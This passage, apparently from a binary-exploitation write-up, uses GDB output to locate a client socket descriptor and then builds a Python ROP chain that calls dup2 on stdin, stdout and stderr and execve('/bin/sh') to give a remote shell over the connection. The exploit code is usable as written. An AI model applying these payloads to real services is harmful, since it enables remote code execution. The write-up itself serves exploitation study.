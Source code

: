 Putting all of that together, i have the following code:

Note: 

>When we execute the shell with "execve("/bin/sh",0,0)" function we have to redirect the output(stdout), the input(stdin) and the error(stderr) to the client file descriptor socket.

The file descriptor number for the client where the reverse shell should redirect the (stdin,stdout,sterror)
```
  0x0000555555554de8 <+654>:	movzx  edx,WORD PTR [rbp-0x412]
   0x0000555555554def <+661>:	lea    rcx,[rbp-0x410]
   0x0000555555554e29 <+655>:	mov    eax,DWORD PTR [rbp-0x424]
   0x0000555555554e2f <+661>:	mov    rsi,rcx
   0x0000555555554e32 <+664>:	mov    edi,eax
   0x0000555555554e34 <+666>:	call   0x555555554980 <write@plt>
```

Here the sock == file descriptor is the first argument of the function "write(sock,note,index)". This argument is passed through the edi, and edi is the value of 'DWORD PTR [rbp-0x424]"

**edi is 4bytes from [rbp-0x424]**

```
gdb-peda$ x/4b $rbp-0x424
0x7fffffff8b9c:	0x04	0x00	0x00	0x00
```

```
  # create payloads
       # first rop chains to execute: dup2(FILE_DESCRIPTOR,1) 
       # in asm:
        #pop rdi, ret # set the arg1 (File_DESCRIPTOR==4)
        #pop rsi, ret # set arg2      (stdout=1)
        #call dup2(4,1) redirect stout
       payload_dup2=pop_rdi_ret_address
       payload_dup2+=p64(FILE_DESCRIPTOR)
       payload_dup2+=pop_rsi_ret_address
       payload_dup2+=p64(1)
       payload_dup2+=dup2_address
        #call dup2(4,0) redirect stdin
       payload_dup2+=pop_rdi_ret_address
       payload_dup2+=p64(FILE_DESCRIPTOR)
       payload_dup2+=pop_rsi_ret_address
       payload_dup2+=p64(0)
       payload_dup2+=dup2_address
        #call dup2(4,2) redirect stderror
       payload_dup2+=pop_rdi_ret_address
       payload_dup2+=p64(FILE_DESCRIPTOR)
       payload_dup2+=pop_rsi_ret_address
       payload_dup2+=p64(2)
       payload_dup2+=dup2_address
       
       # second ropchains to execve("/bin/sh",0,0)
       # in asm:
        #pop rdi, ret # set the arg1 ("/bin/sh" address)
        #pop rsi, ret # set arg2      (0)
        #pop rdx, ret # set arg3      (0)
        #call execve
       payload_execve=pop_rdi_ret_address
       payload_execve+=binsh_address
       payload_execve+=pop_rsi_ret_address
       payload_execve+=p64(0)
       payload_execve+=pop_rdx_ret_address
       payload_execve+=p64(0)
       payload_execve+=execve_address
       # Final payload
       final_payload= payload_dup2 +payload_execve
```
